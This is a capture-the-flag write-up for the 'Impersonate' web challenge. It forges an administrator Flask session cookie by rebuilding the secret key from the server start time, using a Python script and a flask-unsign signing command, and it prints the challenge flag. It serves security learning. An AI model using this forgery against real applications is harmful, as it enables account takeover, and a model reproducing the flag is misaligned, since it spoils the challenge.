

# Impersonate (Medium)
One may not be the one they claim to be.

http://chal.competitivecyber.club:9999/

## Data
* [app.py](https://pctf.competitivecyber.club/files/d5927c5731503b610ddc8e4410507f2b/app.py?token=eyJ1c2VyX2lkIjo0NDE3LCJ0ZWFtX2lkIjoxNzk2LCJmaWxlX2lkIjo2OX0.ZvhKyw.uLXpTZhZFXYwWcXF-Yo6fvWEOgk)

## Solution
The website shows an interface to login:


If we do so, we are welcomed as guest and are informed that only the admin can see the flag:


If we try to log in as admin, we get an error message:


Looking into the HTTP traffic, we can see that a session token is generated for our user:
```
Set-Cookie: session=eyJ1aWQiOiJmNTRlMzJiNi1kMzhjLTUyZmUtYTVmNi0yMmQ2MTFhYzdhMzIiLCJ1c2VybmFtZSI6InRlc3QifQ.ZvhL3A.e6H_pqssLwwzpsKw-oP-E2-Qhy0
```

On the first look, it looks like a JWT, but it isn't:



The data in the header section should in the payload in the JWT standard. And also the payload isn't readable at all. So it's not a JWT format. 

According to this [article](https://medium.com/@s12deff/hacking-flask-session-cookie-8e7abe7217a8) it's a flask session cookie. Similar to JWT, but not the same. But we need a secret as well. [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask) has also some information about this topic.

If we take a look into the source code of the web application, we can see that the cookie has a `is_admin` field that can be set:
```python
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
```

So probably we can manipulate our token with that field and get access to the admin site. But we need the secret to sign the token.

The secret is generated here:
```python
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
```

We need the starting time of the server. Luckily that information can be calculated from `/status`:
```
┌──(kali㉿kali)-[~]
└─$ curl http://chal.competitivecyber.club:9999/status                                   
Server uptime: 0:08:05<br>
    Server time: 2024-09-28 19:08:20

┌──(kali㉿kali)-[~]
└─$ 
```

We also have the secret ID to generate the UID of the user (which is also part of the token):
```python
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
```

Putting things together, leads to the following [script](./generate.py) to generate the secrets:
```python
import requests
from datetime import datetime, timedelta
import hashlib
import uuid

# secret
server_time = datetime(2024, 9, 28, 19, 42, 48)
uptime = timedelta(minutes=2, seconds=34)
server_start_time = server_time - uptime
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
print(f'secret:\t{secure_key}')

# uid
username = 'administrator'
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
uid = str(uuid.uuid5(secret, username))
print(f'uid:\t{uid}')

# token
print("token:\t{" + f"'is_admin': True, 'uid': '{uid}', 'username': '{username}'" + "}")
```
```
$ python generate.py
secret: fdf496eedf6a855f94c3097f55ed4b1ce9a00468d1d489674f08d6e5167a025d
uid:    02ec19dc-bb01-5942-a640-7099cda78081
token:  {'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}
$ 
```

To sign the token, we can use `flask-unsign`:
```
┌──(kali㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}" --secret 'fdf496eedf6a855f94c3097f55ed4b1ce9a00468d1d489674f08d6e5167a025d'
eyJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIiwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.Zvhb6A.py1SHdISxVVsijx6aEqo_MjWG7E

┌──(kali㉿kali)-[~]
└─$ 
```

The last step is to request `/admin` with the token to get the flag:


The flag is: `PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}`
